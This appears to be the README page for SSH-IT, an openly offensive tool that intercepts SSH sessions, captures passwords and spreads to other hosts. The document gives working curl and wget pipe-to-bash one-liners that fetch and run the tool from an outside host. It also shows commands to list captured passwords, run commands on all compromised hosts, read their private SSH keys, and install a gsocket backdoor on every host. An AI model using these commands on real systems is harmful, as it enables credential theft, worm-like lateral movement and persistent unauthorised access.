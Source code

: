 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```shell
~/.prng/thc_cli -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```shell
~/.prng/thc_cli -r uninstall
```

### Environment variables:

Deployment can be controlled with these environment variables

|:---|:---|
|```THC_DEPTH=```|SSH-IT will spread to this depth and then stop. The default is ```THC_DEPTH=2```.|
|```THC_VERBOSE=1```|For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red).|
|```THC_DEBUG=1```|For testing only: Display debug information|
|```THC_DEBUG_LOG=thc.log```|For testing only: Output (most) debug informatio to ```thc.log```.|

Example
```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Tips & Tricks
SSH-IT is controlled with ```thc_cli```.
```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

#### Remote Command Execution
Executing a command on _all_ hosts
```shell
~/.prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (```id_rsa```) from _all_ hosts:
```shell
~/.prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:
```shell
~/.prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

#### When HTTPS is not available
Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
chmod 755 ssh-it-deploy.sh && \
./ssh-it-deploy.sh
```

#### Help the team
Help us fix bugs and send us ```thc.log``` if a boo-boo happens:
```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


